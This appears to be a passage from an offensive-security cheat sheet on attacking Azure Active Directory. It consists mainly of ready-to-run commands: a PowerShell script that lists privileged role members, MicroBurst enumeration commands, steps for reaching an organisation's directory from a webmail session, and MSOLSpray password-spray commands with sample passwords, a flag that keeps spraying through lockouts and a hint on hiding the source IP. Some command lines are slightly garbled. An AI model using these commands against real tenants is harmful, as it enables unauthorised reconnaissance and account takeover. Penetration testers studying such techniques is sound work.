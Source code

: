 ```powershell
ForEach($role in $roles) {
  $users=Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId
  ForEach($user in $users) {
    write-host $role.DisplayName,$user.DisplayName
    $obj = New-Object PSCustomObject
    $obj | Add-Member -type NoteProperty -name RoleName -value ""
    $obj | Add-Member -type NoteProperty -name UserDisplayName -value ""
    $obj | Add-Member -type NoteProperty -name IsAdSynced -value false
    $obj.RoleName=$role.DisplayName
    $obj.UserDisplayName=$user.DisplayName
    $obj.IsAdSynced=$user.DirSyncEnabled -eq $true
    $roleUsers+=$obj
  }
}
$roleUsers

### Enumeration using Microburst
git clone https://github.com/NetSPI/MicroBurst/blob/master/Get-AzureADDomainInfo.ps1
Import-Module .\MicroBurst.psm1

# Anonymous enumeration
Invoke-EnumerateAzureBlobs -Base company
Invoke-EnumerateAzureSubDomains -base company -verbose

# Authencticated enumeration
Get-AzureADDomainInfo
Get-AzureDomainInfo -folder MicroBurst -VerboseGet-MSOLDomainInfo
Get-MSOLDomainInfo
```

With Microsoft, if you are using any cloud services (Office 365, Exchange Online, etc) with Active Directory (on-prem or in Azure) then an attacker is one credential away from being able to leak your entire Active Directory structure thanks to Azure AD.

1. Authenticate to your webmail portal (i.e. <https://webmail.domain.com/>)
2. Change your browser URL to: <https://azure.microsoft.com/>
3. Pick the account from the active sessions
4. Select Azure Active Directory and enjoy!

## Azure AD - Password Spray

> Default lockout policy of 10 failed attempts, locking out an account for 60 seconds

```powershell
git clone https://github.com/dafthack/MSOLSpray
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```
